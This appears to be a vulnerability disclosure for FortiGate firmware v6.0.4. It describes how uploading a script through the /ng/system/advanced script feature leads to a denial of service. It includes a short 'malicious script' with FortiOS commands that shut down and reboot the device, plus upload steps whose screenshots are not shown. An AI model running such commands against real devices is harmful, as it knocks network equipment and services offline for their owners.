



# FortiGate v6.0.4 has a denial of service vulnerability caused by script file upload

## Basic information

Supplier:  Fortinet
Product: FortiGate
Firmware version:  v6.0.4 

## Vulnerability description

In FortiGate v6.0.4, you can upload any script file to cause a denial of service vulnerability if you configure the script function in the /ng/system/advanced location of the firmware version.

## Malicious script files

```
#!/bin/bash

# Print FortiGate system information
get system status
execute shutdown
execute reboot
```

## Vulnerability verification

Normal access to the router web side:



You can upload any script file. Upload a malicious script myscript.sh


The script file was uploaded successfully:




The script file is executed successfully, the attack is successful, the web service is automatically shut down, and a denial-of-service attack is carried out

